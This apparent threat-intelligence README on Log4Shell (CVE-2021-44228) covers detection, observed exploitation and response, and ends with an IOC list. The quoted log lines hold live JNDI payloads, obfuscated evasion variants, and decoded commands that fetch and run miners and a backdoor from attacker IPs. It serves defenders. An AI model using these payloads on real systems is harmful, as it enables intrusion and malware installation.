

# CVE-2021-44228

## Exploitation detection

[Florian Roth](https://twitter.com/cyb3rops) provided [different methods to detect exploitation](https://gist.github.com/Neo23x0/e4c8b03ff8cdf1fa63b7d15db6e3860b).

## Exploitation examples

### Example 1 : Coin miner

**Stage 1**

Exploitation detection done via following command on logs 
```bash 
sudo egrep -i -r '\$\{jndi:(ldap[s]?|rmi|dns):/[^\n]+' /var/log
```

Results with truncated Base64

```bash
/var/log/apache2/access.log:45.155.205.233 - - [10/Dec/2021:13:07:34 +0000] "GET / HTTP/1.1" 200 3424 "-" "${jndi:ldap://45.155.205.233:12344/Basic/Command/Base64/KGN1cmwgLXMgNDUuMTU1LjIwNS4yMzM6NTg3NC81MS45MS4yNC4xNjE6ODB8fHdnZXQgLXEgLU8tIDQ1LjE1NS4yMDUuMjMzOjU4NzQvNTxxxxxxxxxxxxxxxxxxxxx}"
```

Base64 decode to 

```bash
(curl -s 45.155.205.233:5874/xxx.xxx.xxx.xxx:80||wget -q -O- 45.155.205.233:5874/xxx.xxx.xxx.xxx:80)|bash
```

xxx.xxx.xxx.xxx is the target server tested if vulnerable. If vulnerable the server will do a hit on 45.155.205.233 port 5874/tcp

First seen of 45.155.205.233 is on December 4th and first attempts to exploit CVE-2021-44228 on December 10th

45.155.205.233 attempted to exploit other vulnerabilities - ***To be developed***.

**Stage2**

Once a hit is done on 45.155.205.233, another source enter into action.

```bash
access.log:109.237.96.124 - - [10/Dec/2021:15:25:30 +0000] "POST / HTTP/1.1" 200 3424 "-" "${jndi:ldap://80.71.158.12:5557/Basic/Command/Base64/KGN1cmwgLXMgODAuNzEuMTU4LjEyL2xoLnNofHx3Z2V0IC1xIC1PLSA4MC43MS4xNTguMTIvbGguc2gpfGJhc2g=}"
access.log:212.193.57.225 - - [10/Dec/2021:15:25:52 +0000] "POST / HTTP/1.1" 200 3424 "-" "${jndi:ldap://80.71.158.12:5557/Basic/Command/Base64/KGN1cmwgLXMgODAuNzEuMTU4LjEyL2xoLnNofHx3Z2V0IC1xIC1PLSA4MC43MS4xNTguMTIvbGguc2gpfGJhc2g=}"
access.log:212.193.57.225 - - [10/Dec/2021:15:54:59 +0000] "POST / HTTP/1.1" 200 3424 "-" "${jndi:ldap://80.71.158.12:5557/Basic/Command/Base64/KGN1cmwgLXMgODAuNzEuMTU4LjEyL2xoLnNofHx3Z2V0IC1xIC1PLSA4MC43MS4xNTguMTIvbGguc2gpfGJhc2g=}"
access.log:62.76.41.46 - - [10/Dec/2021:16:13:56 +0000] "POST / HTTP/1.1" 200 3424 "-" "${jndi:ldap://80.71.158.12:5557/Basic/Command/Base64/KGN1cmwgLXMgODAuNzEuMTU4LjEyL2xoLnNofHx3Z2V0IC1xIC1PLSA4MC43MS4xNTguMTIvbGguc2gpfGJhc2g=}"
```

With Base64 decoding to

```bash
(curl -s 80.71.158.12/lh.sh||wget -q -O- 80.71.158.12/lh.sh)|bash
```

**Stage 3**

``lh[.]sh`` [07b7746b922cf7d7fa821123a226ed36](https://www.virustotal.com/gui/file/063ccf736c2c19ca5db70b8d8a7cf00377899c16023c63fee836bdefadd336c1) is a shell script downloading the bellow files but also implementing persistence via crontab.


``lh[.]sh`` download and install following binaries
- [648effa354b3cbaad87b45f48d59c616](https://www.virustotal.com/gui/file/6e25ad03103a1a972b78c642bac09060fa79c460011dc5748cbb433cc459938b)
- [ccef46c7edf9131ccffc47bd69eb743b](https://www.virustotal.com/gui/file/c38c21120d8c17688f9aeb2af5bdafb6b75e1d2673b025b720e50232f888808a)

A certain number of other IOCs appear into ``ls[.]sh`` file that are listed bellow

**Stage 4**

Triggered by contrab

``lh2[.]sh`` - [0579a8907f34236b754b07331685d79e](https://www.virustotal.com/gui/file/7e9663f87255ae2ff78eb882efe8736431368f341849fec000543f027bdb4512)


### Example 2

```bash
221.199.187.100 - - [16/Dec/2021:15:41:16 +0000] "GET / HTTP/1.1" 200 11176 "-" "${jndi:ldap://31.131.16.127:1389/Exploit}"
221.199.187.100 - - [16/Dec/2021:15:41:16 +0000] "GET /${jndi:ldap://31.131.16.127:1389/Exploit} HTTP/1.1" 404 360 "-" "Mozilla/5.0 (platform; rv:geckoversion) Gecko/geckotrail Firefox/firefox"
```

Lead to [35697fadc752d99409ccc4c7545d139f](https://www.virustotal.com/gui/file/8ad160ddb9d617cf61ff0a7af0fa6d12ae26cf85a5d6e551c617f6c6bb770299) Java downloader

If OS is Linux
```bash
/bin/bash-c (wget -qO - http://68.183.165.105/.l/log || curl http://68.183.165.105/.l/log)
```

If OS is win
```bash
powershell -w hidden (new-object System.Net.WebClient).DownloadFile('http://172.105.241.146:80/wp-content/themes/twentysixteen/s.cmd', $env:temp + '/s.cmd');start-process -FilePath 's.cmd' -WorkingDirectory $env:tmp
```

## Evasion examples

### JNDI everywhere

**Stage 1**

```bash
45.155.205.233 - - [12/Dec/2021:05:04:50 +0000] "GET /?x=${jndi:ldap://45.155.205.233:12344/Basic/Command/Base64/KGN1cmwgLXMgNDUuMTU1LjIwNS4yMzM6NTg3NC81MS45MS4yNC4xNjE6ODB8fHdnZXQgLXEgLU8tIDQ1LjE1NS4yMDUuMjMzOjU4NzQvNTEuxxxxxxx} HTTP/1.1" 200 3424 "${jndi:${lower:l}${lower:d}${lower:a}${lower:p}://45.155.205.233:12344/Basic/Command/Base64/KGN1cmwgLXMgNDUuMTU1LjIwNS4yMzM6NTg3NC81MS45MS4yNC4xNjE6ODB8fHdnZXQgLXEgLU8tIDQ1LjE1NS4yMDUuMjMzOjU4NzQvNTEuxxxxxxx}" "${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://45.155.205.233:12344/Basic/Command/Base64/KGN1cmwgLXMgNDUuMTU1LjIwNS4yMzM6NTg3NC81MS45MS4yNC4xNjE6ODB8fHdnZXQgLXEgLU8tIDQ1LjE1NS4yMDUuMjMzOjU4NzQvNTEuxxxxxxx}"
```

```bash
109.237.96.124 - - [12/Dec/2021:07:31:51 +0000] "GET /?x=${jndi:ldap://93.189.42.8:5557/Basic/Command/Base64/KGN1cmwgLXMgOTMuMTg5LjQyLjgvbGguc2h8fHdnZXQgLXEgLU8tIDxxxxxxx} HTTP/1.1" 200 3424 "${jndi:${lower:l}${lower:d}${lower:a}${lower:p}://93.189.42.8:5557/Basic/Command/Base64/KGN1cmwgLXMgOTMuMTg5LjQyLjgvbGguc2h8fHdnZXQgLXEgLU8tIDxxxxxxx}" "${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://93.189.42.8:5557/Basic/Command/Base64/KGN1cmwgLXMgOTMuMTg5LjQyLjgvbGguc2h8fHdnZXQgLXEgLU8tIDxxxxxxx}"
```

Similar as example 1 stage 1

### JNDI everywhere with variables

```bash
194.233.164.81 - - [14/Dec/2021:15:56:48 +0000] "GET /?x=${jndi:ldap://${hostName}.c6sbses1emqt3th8q8rgcghm7oydcegbs.interact.sh/a} HTTP/1.1" 200 3424 "${jndi:${lower:l}${lower:d}${lower:a}${lower:p}://${hostName}.c6sbses1emqt3th8q8rgcghm7oydcegbs.interact.sh}" "${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://${hostName}.c6sbses1emqt3th8q8rgcghm7oydcegbs.interact.sh}"
```

All *.c6sbses1emqt3th8q8rgcghm7oydcegbs[.]interact[.]sh resolutions will hit IP 46.101.25.250

interact[.]sh domain name is used with [Interactsh tool](https://github.com/projectdiscovery/interactsh), an Open-Source Solution for Out of band Data Extraction, A tool designed to detect bugs that cause external interactions, For example - Blind SQLi, Blind CMDi, SSRF, etc.

### JNDI everywhere on port 53

```bash
185.220.101.166 - - [14/Dec/2021:16:58:41 +0000] "GET /?a=%24%7Bjndi%3Aldap%3A//193.3.19.159%3A53/c%7D HTTP/1.1" 200 11176 "${jndi:ldap://193.3.19.159:53/c}" "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_5) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/79.0.3945.130 Safari/537.36"
```

Port 53/tcp as destination port is often open in outbound connections.

### JDNI everywhere to DNS

```bash
172.104.232.81 - - [16/Dec/2021:14:33:42 +0000] "GET /?x=${jndi:dns://${hostName}.c6tk6hs1emqt5von8dhgcg7whtodcmxfs.interact.sh/a} HTTP/1.1" 200 3424 "${jndi:${lower:d}${lower:n}${lower:s}://${hostName}.c6tk6hs1emqt5von8dhgcg7whtodcmxfs.interact.sh}" "${${::-j}${::-n}${::-d}${::-i}:${::-d}${::-n}${::-s}://${hostName}.c6tk6hs1emqt5von8dhgcg7whtodcmxfs.interact.sh}"
```

Lead to http://xxxxx.c6tk6hs1emqt5von8dhgcg7whtodcmxfs.interact.sh/a

``sfxmcdothw7gcghd8nov5tqme1sh6kt6c`` is the result

### JNDI everywhere to Backdoor.Linux.Ganiw.a

```bash
81.30.157.43 - - [16/Dec/2021:11:40:35 +0000] "GET /api/v1/?data=%24%7Bjndi%3Aldap%3A%2F%2F81.30.157.43%3A1389%2FBasic%2FCommand%2FBase64%2FY2QgL3RtcDt3Z2V0IGh0dHA6Ly8xNTUuOTQuMTU0LjE3MC9iYmI7Y3VybCAtTyBodHRwOi8vMTU1Ljk0LjE1NC4xNzAvYmJiO2NobW9kICt4IGJiYjsuL2JiYg%3D%3D%7D&username=%24%7Bjndi%3Aldap%3A%2F%2F81.30.157.43%3A1389%2FBasic%2FCommand%2FBase64%2FY2QgL3RtcDt3Z2V0IGh0dHA6Ly8xNTUuOTQuMTU0LjE3MC9iYmI7Y3VybCAtTyBodHRwOi8vMTU1Ljk0LjE1NC4xNzAvYmJiO2NobW9kICt4IGJiYjsuL2JiYg%3D%3D%7D&password=%24%7Bjndi%3Aldap%3A%2F%2F81.30.157.43%3A1389%2FBasic%2FCommand%2FBase64%2FY2QgL3RtcDt3Z2V0IGh0dHA6Ly8xNTUuOTQuMTU0LjE3MC9iYmI7Y3VybCAtTyBodHRwOi8vMTU1Ljk0LjE1NC4xNzAvYmJiO2NobW9kICt4IGJiYjsuL2JiYg%3D%3D%7D&search=%24%7Bjndi%3Aldap%3A%2F%2F81.30.157.43%3A1389%2FBasic%2FCommand%2FBase64%2FY2QgL3RtcDt3Z2V0IGh0dHA6Ly8xNTUuOTQuMTU0LjE3MC9iYmI7Y3VybCAtTyBodHRwOi8vMTU1Ljk0LjE1NC4xNzAvYmJiO2NobW9kICt4IGJiYjsuL2JiYg%3D%3D%7D&q=%24%7Bjndi%3Aldap%3A%2F%2F81.30.157.43%3A1389%2FBasic%2FCommand%2FBase64%2FY2QgL3RtcDt3Z2V0IGh0dHA6Ly8xNTUuOTQuMTU0LjE3MC9iYmI7Y3VybCAtTyBodHRwOi8vMTU1Ljk0LjE1NC4xNzAvYmJiO2NobW9kICt4IGJiYjsuL2JiYg%3D%3D%7D&key=%24%7Bjndi%3Aldap%3A%2F%2F81.30.157.43%3A1389%2FBasic%2FCommand%2FBase64%2FY2QgL3RtcDt3Z2V0IGh0dHA6Ly8xNTUuOTQuMTU0LjE3MC9iYmI7Y3VybCAtTyBodHRwOi8vMTU1Ljk0LjE1NC4xNzAvYmJiO2NobW9kICt4IGJiYjsuL2JiYg%3D%3D%7D&user=%24%7Bjndi%3Aldap%3A%2F%2F81.30.157.43%3A1389%2FBasic%2FCommand%2FBase64%2FY2QgL3RtcDt3Z2V0IGh0dHA6Ly8xNTUuOTQuMTU0LjE3MC9iYmI7Y3VybCAtTyBodHRwOi8vMTU1Ljk0LjE1NC4xNzAvYmJiO2NobW9kICt4IGJiYjsuL2JiYg%3D%3D%7D&pass=%24%7Bjndi%3Aldap%3A%2F%2F81.30.157.43%3A1389%2FBasic%2FCommand%2FBase64%2FY2QgL3RtcDt3Z2V0IGh0dHA6Ly8xNTUuOTQuMTU0LjE3MC9iYmI7Y3VybCAtTyBodHRwOi8vMTU1Ljk0LjE1NC4xNzAvYmJiO2NobW9kICt4IGJiYjsuL2JiYg%3D%3D%7D&email=%24%7Bjndi%3Aldap%3A%2F%2F81.30.157.43%3A1389%2FBasic%2FCommand%2FBase64%2FY2QgL3RtcDt3Z2V0IGh0dHA6Ly8xNTUuOTQuMTU0LjE3MC9iYmI7Y3VybCAtTyBodHRwOi8vMTU1Ljk0LjE1NC4xNzAvYmJiO2NobW9kICt4IGJiYjsuL2JiYg%3D%3D%7D&token=%24%7Bjndi%3Aldap%3A%2F%2F81.30.157.43%3A1389%2FBasic%2FCommand%2FBase64%2FY2QgL3RtcDt3Z2V0IGh0dHA6Ly8xNTUuOTQuMTU0LjE3MC9iYmI7Y3VybCAtTyBodHRwOi8vMTU1Ljk0LjE1NC4xNzAvYmJiO2NobW9kICt4IGJiYjsuL2JiYg%3D%3D%7D HTTP/1.1" 404 360 "${jndi:ldap://81.30.157.43:1389/Basic/Command/Base64/Y2QgL3RtcDt3Z2V0IGh0dHA6Ly8xNTUuOTQuMTU0LjE3MC9iYmI7Y3VybCAtTyBodHRwOi8vMTU1Ljk0LjE1NC4xNzAvYmJiO2NobW9kICt4IGJiYjsuL2JiYg==}" "${jndi:ldap://81.30.157.43:1389/Basic/Command/Base64/Y2QgL3RtcDt3Z2V0IGh0dHA6Ly8xNTUuOTQuMTU0LjE3MC9iYmI7Y3VybCAtTyBodHRwOi8vMTU1Ljk0LjE1NC4xNzAvYmJiO2NobW9kICt4IGJiYjsuL2JiYg==}"
```

Base64 decode to Backdoor.Linux.Ganiw.a for DDoS attacks

```bash
cd /tmp;wget http://155.94.154.170/bbb;curl -O http://155.94.154.170/bbb;chmod +x bbb;./bbb
```

Lead to download of [e8adfebaff4958e707b9d841661c16b7](https://www.virustotal.com/gui/file/54fed4d05e21995a1359e2482d29cc429a7ce470a6f1a438e763852a27c8de37) Backdoor.Linux.Ganiw.a for DDoS attacks

## Scans to be identified

```bash
167.172.44.255 - - [13/Dec/2021:08:20:30 +0000] "GET / HTTP/1.0" 200 11176 "-" "borchuk/3.1 ${jndi:ldap://167.172.44.255:1389/epepap}"
167.172.44.255 - - [13/Dec/2021:08:24:52 +0000] "GET / HTTP/1.0" 200 11176 "-" "borchuk/3.1 ${jndi:ldap://167.172.44.255:1389/epepap}"
167.172.44.255 - - [13/Dec/2021:08:47:21 +0000] "GET / HTTP/1.0" 200 11176 "-" "borchuk/3.1 ${jndi:ldap://167.172.44.255:42063/epepap}"
167.172.44.255 - - [13/Dec/2021:10:41:45 +0000] "GET / HTTP/1.0" 200 11176 "-" "borchuk/3.1 ${jndi:ldap://167.172.44.255:42063/epepap}"
167.172.44.255 - - [13/Dec/2021:11:07:06 +0000] "GET / HTTP/1.0" 200 11176 "-" "borchuk/3.1 ${jndi:ldap://167.172.44.255:389/LegitimateJavaClass}
167.172.44.255 - - [14/Dec/2021:01:50:04 +0000] "GET / HTTP/1.0" 200 11176 "${jndi:ldap://167.172.44.255:1389/Lazn}" "borchuk/3.1 ${jndi:ldap://167.172.44.255:1389/Lazn}"
```

```bash
171.25.193.78 - - [13/Dec/2021:19:18:32 +0000] "GET / HTTP/1.1" 200 3424 "-" "${jndi:ldap://193.3.19.159:53/c}"
```

171.25.193.78 is a TOR end point and 193.3.19.159 is a CN hoster hosted in RU

```bash
139.177.180.120 - - [14/Dec/2021:02:27:04 +0000] "GET / HTTP/1.1" 200 11176 "${jndi:dns://51-91-24-161.scanworld.net/ref}" "${jndi:dns://51-91-24-161.scanworld.net/ua}"
```

```bash
157.90.35.190 - - [14/Dec/2021:23:36:48 +0000] "GET / HTTP/1.1" 200 11176 "-" "${jndi:ldap://162.55.90.26/861608097/C}"
```



```bash
139.59.70.139 - - [16/Dec/2021:02:41:50 +0000] "GET / HTTP/1.0" 200 11176 "${jndi:ldap://159.223.5.30:443/}" "nimaps/1.1 ${jndi:ldap://159.223.5.30:443/}"
139.59.70.139 - - [16/Dec/2021:06:23:13 +0000] "GET / HTTP/1.0" 200 11176 "${jndi:ldap://159.223.5.30:1389/a}" "nimaps/1.1 ${jndi:ldap://159.223.5.30:1389/a}"
```

## Scans of security researchers

### Kryptos Logic scans

```bash
${jndi:ldap://http80useragent.kryptoslogic-cve-2021-44228.com/http80useragent}
````

Host [kryptoslogic-cve-2021-44228.com](http://kryptoslogic-cve-2021-44228.com/) is operated by Kryptos Logic for the purposes of detected hosts vulnerable to CVE-2021-44228.

### Alphastrike.io scans

```bash
45.83.67.63 - - [13/Dec/2021:03:27:46 +0000] "GET /$%7Bjndi:dns://45.83.64.1/securityscan-http80%7D HTTP/1.1" 404 360 "${jndi:dns://45.83.64.1/securityscan-http80}" "${jndi:dns://45.83.64.1/securityscan-http80}"
```

## Reponse(s)

The most important in the response is to understand what has been executed with the JNDI call.

### Example 1

```bash
45.155.205.233 - - [12/Dec/2021:05:04:50 +0000] "GET /?x=${jndi:ldap://45.155.205.233:12344/Basic/Command/Base64/KGN1cmwgLXMgNDUuMTU1LjIwNS4yMzM6NTg3NC81MS45MS4yNCxxxx} HTTP/1.1" 200 3424 "${jndi:${lower:l}${lower:d}${lower:a}${lower:p}://45.155.205.233:12344/Basic/Command/Base64/KGN1cmwgLXMgNDUuMTU1LjIwNS4yMzM6NTg3NC81MS45MS4yNCxxxx}" "${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://45.155.205.233:12344/Basic/Command/Base64/KGN1cmwgLXMgNDUuMTU1LjIwNS4yMzM6NTg3NC81MS45MS4yNCxxxx}"
```

You should check outbound connections
1. to 45.155.205.233 port 12344/tcp
2. to 45.155.205.233 port 5874/tcp from the decoded Base64

### Example 2

```bash
212.193.57.225 - - [12/Dec/2021:05:58:32 +0000] "GET / HTTP/1.1" 200 3424 "-" "${jndi:ldap://82.118.18.201:1534/Basic/Command/Base64/KGN1cmwgLXMgODIuMTE4LjE4LjIwMS9saC5zaHx8d2dldCAtcSAtTy0gODIuMTE4LjE4LjIwMS9saC5zaCl8YmFzaA==}"
```

You should check outbound connections
1. to 82.118.18.201 port 1534/tcp
2. to 82.118.18.201 port 80/tcp from the decoded Base64

Also check the presence of 
1. ls[.]sh file from the decoded Base64
## IOCs

45.155.205.233   
109.237.96.124  
212.193.57.225  
62.76.41.46  
80.71.158.12  
92.242.40.21  
82.118.18.201  
93.189.42.8  
195.54.160.149  
167.172.44.255  
171.25.193.78  
193.3.19.159  
139.177.180.120  
46.101.25.250  
185.220.101.166  
193.3.19.159  
157.90.35.190  
162.55.90.26  
139.59.70.139  
159.223.5.30  
81.30.157.43  
95.217.37.227   
193.3.53.2  
221.199.187.100  
31.131.16.127  
68.183.165.105  
172.105.241.146  
interact[.]sh  
07b7746b922cf7d7fa821123a226ed36  
648effa354b3cbaad87b45f48d59c616  
ccef46c7edf9131ccffc47bd69eb743b  
0579a8907f34236b754b07331685d79e